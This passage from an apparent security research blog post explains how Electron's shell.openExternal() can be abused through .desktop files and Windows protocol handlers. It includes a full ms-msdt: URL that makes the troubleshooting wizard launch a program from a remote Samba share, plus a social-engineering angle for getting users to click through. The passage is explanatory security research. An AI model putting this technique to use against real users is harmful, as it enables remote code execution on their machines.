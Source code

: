 ```ini
[Desktop Entry]
Exec=xmessage "Hello from Electron."
Type=Application
```

<video controls autoplay loop><source src="/vid/shell-openexternal-dangers/xubuntu-desktop-file.mp4" type="video/mp4"></video>

The handling of remote locations also differs between distributions and desktop environments. While Ubuntu 20.04 with Gnome refuses to open Samba shares that have not been mounted yet, Xubuntu 20.04 will instead gladly open files from there, including `.desktop` files (albeit sometimes with a warning about an "Untrusted application launcher").

## Take your pick of a protocol

In addition, even if `file:` and similar URLs are filtered out, the attacker can make use of the myriad of other URI scheme handlers registered on modern systems. Vulnerabilities in those protocol handlers occur from time to time (in programs like [Electron](https://medium.com/0xcc/electrons-bug-shellexecute-to-blame-cacb433d0d62), [Microsoft Edge](https://leucosite.com/Microsoft-Edge-RCE/), [Ubisoft's Uplay](https://thewhiteh4t.github.io/2018/11/16/ubisoft-uplay-rce-exploit.html), or [Origin](https://zero.lol/2019-05-22-fun-with-uri-handlers/)) and sometimes even the intended behaviour of those handlers can also be abused.

I will give three examples for Windows here but there are definitely more of them out there and similar vectors likely also exist for other systems.

* Windows includes the `ms-msdt:` protocol that opens the [Microsoft Support Diagnostic Tool](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msdt) which provides the troubleshooting wizard to diagnose Wi-Fi and audio problems and the like. This protocol directly passes the string it is given to the `msdt.exe` program. The attacker now needs to find an included wizard that allows the execution of arbitrary programs, preferably even remote ones. The program compatibility wizard fits this description. Luckily for the attacker, all user input can also be prefilled from the command line, leading to this URL: 

  ```
  ms-msdt:-id PCWDiagnostic /moreoptions false /skip true /param IT_BrowseForFile="\\live.sysinternals.com\tools\procmon.exe" /param IT_SelectProgram="NotListed" /param IT_AutoTroubleshoot="ts_AUTO"
  ```

  Upon opening this URL with `shell.openExternal()`, the troubleshooting wizard will open and show a progress bar for the "diagnosis". Once completed, the user is asked to click a button to check the compatibility settings. When they do so, the Process Monitor tool is once again launched from the remote server. As this vector uses the official Microsoft troubleshooting tool that the user may already be familiar with and signals legitimate diagnosis taking place, it shouldn't be too hard for the attacker to convince the user that clicking this button is necessary.

  <video controls autoplay loop><source src="/vid/shell-openexternal-dangers/windows-msdt.mp4" type="video/mp4"></video>
* Windows further includes the [`search-ms:` protocol](https://docs.microsoft.com/en-us/windows/win32/search/getting-started-with-parameter-value-arguments) that opens the search feature. The attacker can supply both the query of the search and the location. This location can also be on a remote Samba share. Finally, they can even set the title of the search window.

  Using this, the attacker can craft the following URL searching the Sysinternals Live share to only display the Process Monitor executable with a title suggesting an important update:
